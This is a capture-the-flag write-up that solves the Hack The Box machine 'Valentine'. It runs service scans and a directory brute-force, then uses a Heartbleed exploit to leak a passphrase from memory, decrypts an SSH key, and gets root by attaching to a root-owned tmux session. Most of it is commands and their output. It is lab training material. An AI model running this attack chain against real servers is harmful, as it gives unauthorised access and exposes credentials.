 ![logo](/logo.png)

# [Valentine- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 17 Feb 2018 machine on HTB,Valentine created by [mrb3n](https://app.hackthebox.com/users/2984).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *tmux
  *encryption
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/valentine 10.10.10.79
```

![](/Linux/Linux-Easy/Valentine/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/valentine 10.10.10.79                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-16 18:26 EAT
Nmap scan report for 10.10.10.79
Host is up (0.32s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2024-09-16T15:26:49+00:00; +6s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 5s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Ubuntu`and its running an `Apache server`. 

port[22]-ssh
port[80]- http
port[443]-ssl

so when we go the browser at [http://10.10.10.79](http://10.10.10.79) i find a web browser that has some graphite also when i check https i find the same image.

![](/Linux/Linux-Easy/Valentine/Screenshots/love.png)

let me start gobuster to enumerate active directories since their is no interesting thing i find

```sh
 gobuster dir -u https://10.10.10.79 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Easy/Valentine/Screenshots/gobuster.png)

i find some folders so let me check what i can get from them.I find this in the `dev` folder 

![](/Linux/Linux-Easy/Valentine/Screenshots/dev.png)

so when i navigate to decode i get

![](/Linux/Linux-Easy/Valentine/Screenshots/decode.png)

in the hype_key we find string which hints that sensitive data may be going in and out of the decoder. That’s an indication that the string we found earlier might be important. 

```sh
cat hype_key | xxd -r -p
```

Grab it, and it decodes to an encrypted RSA cert:

![](/Linux/Linux-Easy/Valentine/Screenshots/rsa.png)

since it was a heartbleed logo lets search for heartbleed explort.Heartbleed is a logic error that allowed an attacker to grab chunks of random memory that they shouldn’t have had access to.

There’s no better explanation of Heartbleed than [xkcd’s](https://xkcd.com/1354/):

```sh
searchsploit heartbleed
```


![](/Linux/Linux-Easy/Valentine/Screenshots/heartbleed.png)

```sh
python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
```

![](/Linux/Linux-Easy/Valentine/Screenshots/python2.png)

```sh
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
```

![](/Linux/Linux-Easy/Valentine/Screenshots/name.png)

```sh
cat hype_key | xxd -r -p > hype_key_encrypted
```

![](/Linux/Linux-Easy/Valentine/Screenshots/encryt.png)

We can use openssl to try to decrypt. It asks for a password… the decode of the base64 collected with heartbleed, `heartbleedbelievethehype` works:

```sh
openssl rsa -in hype_key_encrypted -out hype_key_decrypted
```

![](/Linux/Linux-Easy/Valentine/Screenshots/encryption.png)

With the decrypted key, ssh in as `hype`, given the file name:

```sh
ssh -i hype_key_decrypted hype@10.10.10.79
```

![](/Linux/Linux-Easy/Valentine/Screenshots/hypessh.png)

we can find the `user flag`

![](/Linux/Linux-Easy/Valentine/Screenshots/userflag.png)

Running ps aux reveals a tmux session being run as the root user.

```sh
ps -ef | grep tmux
```

![](/Linux/Linux-Easy/Valentine/Screenshots/ps.png)

Simply running the command tmux -S /.devs/dev_sess will connect to the session, with full root
privileges

![](/Linux/Linux-Easy/Valentine/Screenshots/tmux.png)


and from their we can get a root flag from 

![](/Linux/Linux-Easy/Valentine/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------